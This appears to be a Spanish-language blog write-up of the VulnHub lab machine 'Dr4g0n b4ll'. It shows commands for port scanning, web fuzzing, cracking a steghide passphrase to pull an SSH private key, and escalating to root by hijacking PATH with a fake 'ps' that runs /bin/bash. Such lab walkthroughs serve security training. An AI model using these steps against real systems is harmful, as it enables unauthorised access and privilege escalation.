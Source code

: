 ```yaml
---
layout: post
title: "Dr4g0n b4ll"
date: 2024-05-22 13:25:23
category: sample
vm: vulnhub
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Dr4g0n b4ll </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/host.png){:.margin}

**1\.** Pillamos la ip objetivo.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/arp.png){:.margin}

**2\.** Escaneo puertos y tambien servicios.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/nmap.png){:.margin}

**3\.** Hecho un ojo a la pagina apache.

`http://192.168.1.8:80`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/80.png){:.margin}

**4\.** Hago fuzzing de directorios y archivos en la web.

`gobuster dir -u http://192.168.1.8/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,php,txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/gobuster.png){:.margin}

**5\.** Este archivo me da un texto.

`http://192.168.1.8/robots.txt`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/robots.png){:.margin}

**6\.** Lo pego en [Cyberchef](https://gchq.github.io/CyberChef/)  para decodificar.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cybercheffind.png){:.margin}

**7\.** Vuelvo a la pagina principal y analizo el codigo fuente.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ctrlu.png){:.margin}

**8\.** Por muy debajo encuentro una linea comentada, lo llevo a Cyberchef.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/cyberchefdir.png){:.margin}

**9\.** Me dirigo a esa ruta en la web.

`http://192.168.1.8/DRAGON BALL/`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/dbindex.png){:.margin}

**10\.** En el archivo al parecer tenemos rutas.

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/secret.png){:.margin}

**11\.** Ya dentro de la carpeta vulnhub, tenemos dos archivos.

_\- En el login pillamos un potencial usuario_

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/login.png){:.margin}

**12\.** Ahora analizando la imagen.

_12.1- Descago la imagen_

`wget http://192.168.1.8/DRAGON%20BALL/Vulnhub/aj.jpg`

_12.2- Con steghide extraigo archivos ocultos, pero me pide una clave_

`steghide --extract -sf aj.jpg`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/steghidefail.png){:.margin}

_12.3- Crackeo la contraseña, si es exitoso lo extrae automaticamente_

`stegcracker aj.jpg -q`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/stegcracker.png){:.margin}

_12.4- Tenemos un clave privada, lo renombro y le doy permisos_

`file aj.jpg.out`

`mv aj.jpg.out id_rsa`

`chmod 600 id_rsa`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/idrsa.png){:.margin}

**13\.** Accedo por ssh como usuario xmen.

`ssh -i id_rsa xmen@192.168.1.8`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/ssh.png){:.margin}

**14\.** En el archivo esta nuestra flag de usuario.

_\- Dentro de la carpeta tenemos dos archivos_

`cd script`

`ls`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/scriptfiles.png){:.margin}

**15\.** Analizando los archivos.

_15.1- En el contenido de demo.c veo que ejecuta el comando ps_

`cat demo.c`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/demo.png){:.margin}

_15.2- Al ejecutar shell me resulta una copia de la salida del comando ps_

`./shell`

`ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/shell.png){:.margin}

_\- Entre las cadenas del binario shell hallo demo.c, supongo que al ejecutar shell tambien ejecuta las instrucciones de demo.c, por eso en la salida de shell tambien se ve que se ejecuto ps_

`strings shell | grep demo`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/strings.png){:.margin}

**16\.** En demo.c veo que ps no es llamado con su ruta absoluta, supongo que busca en el path.

_16.1- En principio veo la ruta relativa de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/which.png){:.margin}

_16.2- Creo mi propio 'binario' ps y lo agrego al path_

`cd /tmp`

`echo "/bin/bash" > ps`

`chmod +x ps`

`export PATH=/tmp:$PATH`

`echo $PATH`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/newps.png){:.margin}

_16.3- Compruebo la nueva ruta de ps_

`which ps`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/whichnew.png){:.margin}

**17\.** Por ultimo escalo privilegios.

`cd /home/xmen/script`

`./shell`

![img](/notas/public/img/vulnhub/Dr4gon_b4ll/root.png){:.margin}


<br>

<span class="finish">_Finalizado._</span>